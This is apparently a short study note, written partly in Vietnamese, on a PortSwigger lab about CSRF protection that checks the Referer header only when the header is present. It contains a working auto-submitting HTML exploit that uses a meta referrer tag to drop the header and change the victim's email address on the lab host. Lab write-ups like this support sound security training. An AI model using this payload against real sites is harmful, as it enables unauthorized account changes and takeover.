 # [Lab: CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)

Lỗ hổng: CSRF protection dựa vào header Referer, không có header này thì không kiểm tra luôn.

Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.

In this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:

`<meta name="referrer" content="never">`

Làm như miêu tả:

```
<html>
<head>
<meta name="referrer" content="never">
</head>
    <body>
        <form action="https://0afa003604a5898fc07da62300e000e4.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
